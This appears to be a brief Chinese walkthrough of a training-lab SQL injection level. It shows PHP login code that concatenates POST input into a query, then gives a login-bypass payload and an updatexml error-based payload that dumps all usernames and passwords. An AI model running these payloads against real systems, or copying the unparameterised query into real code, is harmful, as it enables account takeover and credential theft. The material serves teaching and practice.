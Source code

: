 题目部分源码，POST型单引号字符型注入

```php
<form action="" name="form1" method="post">
	<div style="margin-top:15px; height:30px;">Username : &nbsp;&nbsp;&nbsp;
	    <input type="text"  name="uname" value=""/>
	</div>  
	<div> Password  : &nbsp;&nbsp;&nbsp;
		<input type="text" name="passwd" value=""/>
	</div></br>
	<div style=" margin-top:9px;margin-left:90px;">
		<input type="submit" name="submit" value="Submit" />
	</div>
</form>
........
$uname=$_POST['uname'];
	$passwd=$_POST['passwd'];
........
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);
........
else  
	{
		print_r(mysql_error());
	}
```

用万能密码 1' or 1# 就行

<img src="图片\Snipaste_2023-01-22_19-12-47.png" alt="Snipaste_2023-01-22_19-12-47" style="zoom:80%;" />

还可以使用报错注入

```
1' and updatexml(1,concat(0x5e,(select group_concat(username,0x7e,password) from users),0x5e),1)#
```
